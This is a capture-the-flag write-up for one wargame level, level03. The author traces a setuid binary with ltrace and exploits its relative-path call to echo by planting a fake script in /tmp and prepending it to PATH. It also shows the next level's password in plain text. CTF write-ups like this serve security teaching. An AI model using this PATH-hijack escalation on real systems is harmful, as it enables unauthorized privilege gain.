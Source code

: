# 03

- inspect
  - available actions - `file` `readelf` `strings` ：❌ `ltrace` ✅ 
```b
> ls -l
-rwsr-sr-x 1 flag03 level03 8627 level03
   ^  ^ setuid bit & setgid bit are set
  👉 when the binary is exec functions called inside it
  are called under same level of permission
```
```b
> ltrace ./level03
  👉 we can see the `s` bit in action

>>> output
getegid()                                           = 2003
geteuid()                                           = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me" ...

>>> observations
  👉 getegid & geteuid return a effective group/user ID ie. 2003
  👉 setresgid & setresuid set Real/Effective/Saved ID to ensure
  that the process maintains privileges
  👉 `/usr/bin/env echo` uses a vulnerable relative path
  since ./level03 has high privileges,
  we can fake a false echo to run getflag inside ./level03
```
```b
> whereis getflag
getflag: /bin/getflag
```

- solution

```b
> echo -e "#\!/bin/bash\n/bin/getflag" > /tmp/echo
> chmod +x /tmp/echo
> export PATH=/tmp:$PATH  👈 prepend tmp to get it checked first
> ./level03
```

# 03 - token

```b
> su level04
> Password: qi0maab88jeaj46qoumi7maus
```
